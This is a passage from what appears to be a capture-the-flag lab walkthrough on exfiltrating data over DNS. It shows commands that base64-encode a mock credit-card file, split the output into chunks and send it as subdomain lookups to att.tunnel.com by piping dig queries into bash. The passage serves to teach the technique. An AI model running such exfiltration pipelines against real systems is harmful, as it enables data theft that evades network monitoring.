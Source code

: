     victim2$ cat task9/credit.txt | base64
    # TmFtZTogVEhNLXVzZXIKQWRkcmVzczogMTIzNCBJbnRlcm5ldCwgVEhNCkNyZWRpdCBDYXJkOiAxMjM0LTEyMzQtMTIzNC0xMjM0CkV4cGlyZTogMDUvMDUvMjAyMgpDb2RlOiAxMzM3Cg==
    ```

3. We now need to split the encoded data into one or more DNS requests depending on the output's length and attach it as a subdomain name:

    ```shell
    thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n" | fold -w18 | sed -r 's/.*/&.att.tunnel.com/'
    ```
    Let's see what we are doing step by step:
    1. `cat task9/credit.txt` Display the contents of the `credit.txt` file located in the `task9` directory.
    2. `base64` We also used **base64 encoding** on the HTTP section.
    3. `tr -d "\n"` The `tr` command is used for translating or deleting characters. In this case, we use it to remove newline characters, `\n` from the output. Newline characters are typically used to separate lines of text, so with this, we essentially remove line breaks.
    4. `fold -w18` The `fold` command is used to wrap text to a specified width, in this case, it wraps the text into lines of 18 characters each. This helps format the data info fixed-width lines.
    5. `sed -r 's/.*/&.att.tunnel.com/'` We have seen the stream editor before as well. We now use it with [regular expressions](https://www.w3schools.com/js/js_regexp.asp), aka **regex**, to modify each line of the input text:
        - `-r` This tells `sed` to used extended regex.
        - `s/.*/&.att.tunnel.com/'` This is a regex substitution. It takes each line (`.*` matches the entire line), and appends `.att.tunnel.com` to it.  

    Another way of doing this, is by splitting every 18 characters with a dot `.` and add the nameserver after:

    ```shell
    thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/
    ```

    This command is similar to the above with a few changes:
    - `cat task9/credit.txt | base64 | tr -d "\n" | fold -w18` This part is identical. So by now, we have encoded the data, removed line breaks, and grouped it in lines of 18 characters each.
    - `sed 's/.*/&./'` We append a period, `.`, to the end of each line.
    - `tr -d "\n"` After we grouped the data in fixed-width lines, and appended a dot at the end of each, we now remove once again the line breaks. This will result having a single line of data.
    - `sed s/$/att.tunnel.com/` This appends `att.tunnel.com` on the line. The regex `s/$` matches the end of the line, and it is replaced with `att.tunnel.com`.

    ![Encoding and formatting data](dns-splitting-content.png)

4. Next, from `victim2`, we must send the encoded data as a subdomain name:

    ```shell
    thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash
    ```
